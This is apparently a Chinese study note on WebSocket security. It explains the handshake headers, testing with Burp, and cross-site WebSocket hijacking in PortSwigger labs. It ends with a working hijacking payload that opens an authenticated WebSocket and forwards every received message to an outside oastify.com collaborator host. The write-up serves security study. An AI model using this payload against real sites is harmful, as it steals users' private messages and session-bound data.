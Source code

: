 ### 介绍

* 什么是websocket：通过HTTP协议发起的一个双向全双工的通信协议。WebSocket协议被广泛用在现代WEB程序中用于数据流的传输和异步通信。
* websocket是由http请求发起建立的，建立连接后，双方均可主动发送消息，且不用遵循类似http一个请求对应一个响应的通信方式

### websocket连接的建立过程

通过js发起连接，wss是TLS加密的，ws是没有加密的，类似于https和http的关系

```java
var ws = new WebSocket("wss://normal-website.com/chat");
```

* 首先通过http建立连接，图示中标出了建立连接所使用的首部，和成功建立连接的响应
  * `Connection`和`Upgrade`头部用来标识这是一个WebSocket握手消息。
  * `Sec-WebSocket-Version`请求头明确了一个客户端希望使用的WebSocket协议版本。版本`13`最常用。
  * `Sec-WebSocket-Key`请求头包含了一个base64编码的随机值，在每个WebSocket握手请求中，它是随机生成的，**并不用做身份验证**。
  * `Sec-WebSocket-Accept`响应头的值是客户端发送的握手请求中`Sec-WebSocket-key`的哈希值，并与协议规范中定义的特定字符串连接。这样做的目的是匹配每一对握手请求，防止由于错误的配置或者缓存代理导致的连接错误。

![image-20240919161317046](./images/image-20240919161317046.png)

后续的报文，burp中没有显示二进制的首部。websocket建立连接后可以发送任意格式的信息，但是常常为json

![image-20240919162025148](./images/image-20240919162025148.png)

### 恶意操作websocket报文

实际上，几乎所有的Web漏洞都有可能出现在WebSocket中。因为，WebSocket本质上就是一个通过HTTP建立连接的双向全双工的通信协议而已，但由于其相比HTTP多了一“工”的特性，可能会出现一些新的攻击场景。

对于websocket的测试与常见的通过http报文的测试无异，无非是更改其报文的内容尝试进行攻击。和http报文一样，可以借助burp的proxy模块拦截和查看其历史记录，通过repeater模块重放等。

### 跨站WebSockets攻击

发起websocket连接是没有跨域限制的，而且并不限制js读取返回的数据，所以我们利用websocket发起类似于csrf的攻击

### portswigger靶场

#### Lab: Manipulating WebSocket messages to exploit vulnerabilities

#### Lab: Cross-site WebSocket hijacking

```html
<html>
<script>
// Create WebSocket connection.
// 会携带同源cookie
var ws = new WebSocket("wss://0a1300e804b8a30880115d9500110087.web-security-academy.net/chat");

// Connection opened
ws.addEventListener('open', function (event) {
    ws.send('READY');
});

// Listen for messages
// fetch可以发起跨域的no-cors请求，但不能携带cookie，不能获取返回数据
ws.onmessage = function(event) {
  fetch('https://qxrcgx2qo9vhsvdclvu2pb5j1a72vsjh.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data})
};
</script>
</html>
```

#### 